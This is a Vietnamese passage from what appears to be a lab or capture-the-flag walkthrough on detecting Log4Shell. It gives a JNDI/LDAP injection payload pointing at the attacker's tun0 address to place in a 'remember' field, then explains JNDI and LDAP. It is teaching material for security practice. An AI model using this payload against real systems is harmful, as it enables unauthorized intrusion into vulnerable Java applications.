 ![alt text](image-3.png)

Nhập payload vào trường `remember` như hiển thị ở trên để có thể xác định điểm inject nếu có. Nếu yêu cầu khiến máy chủ kết nối lại, thì đã xác minh rằng ứng dụng dễ bị tấn công.

```
${jndi:ldap://{Tun0 IP Address}/whatever}
```

JNDI là từ viết tắt của `Java Naming and Directory Interface API`. Bằng cách gọi đến API này, các ứng dụng sẽ định vị tài nguyên và các đối tượng chương trình khác. Tài nguyên là đối tượng chương trình cung cấp kết nối đến các hệ thống, chẳng hạn như máy chủ cơ sở dữ liệu và hệ thống nhắn tin.

LDAP là từ viết tắt của `Lightweight Directory Access Protocol`, đây là giao thức ứng dụng tiêu chuẩn công nghiệp, trung lập với nhà cung cấp, mở để truy cập và duy trì các dịch vụ thông tin thư mục phân tán qua Internet hoặc Mạng. Cổng mặc định mà LDAP chạy trên đó là `port 389`.

![alt text](image-4.png)
